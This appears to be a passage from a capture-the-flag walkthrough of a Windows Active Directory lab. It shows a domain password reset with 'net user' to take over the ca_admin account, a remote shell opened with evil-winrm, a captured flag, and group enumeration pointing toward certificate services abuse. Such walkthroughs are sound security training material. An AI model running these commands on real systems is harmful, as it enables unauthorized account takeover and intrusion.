 
Let's reset the user's password using the built-in 'net user' utility.

```
PS C:\windows\tasks> net user ca_admin Passw0rd123!@# /domain
net user ca_admin Passw0rd123!@# /domain
The command completed successfully.
```

We gain access to the machine as the 'ca_admin' user!
```
┌──(kali㉿kali)-[~/Captivity]
└─$ evil-winrm -u ca_admin -p 'Passw0rd123!@#' -i 192.168.100.130        
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\ca_admin\Documents> whoami
capt\ca_admin
*Evil-WinRM* PS C:\Users\ca_admin\Documents> type C:\Users\ca_admin\Desktop\user2.txt
ICSD{d6e5f1a95e337951476ec27672868aa1}
```

### Certificate Authority Admins Group
ca_admin is a member of 'CAPT\Certificate Authority Admins,' indicating that Active Directory Certificate Services may be installed. We can verify this using the 'Get-WindowsFeature' cmdlet.

```
*Evil-WinRM* PS C:\Users\ca_admin\Documents> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                           Attributes
=========================================== ================ ============================================= ==================================================
Everyone                                    Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access     Alias            S-1-5-32-574                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
CAPT\Certificate Authority Admins           Group            S-1-5-21-541188004-2695660962-2805497550-1105 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448
```
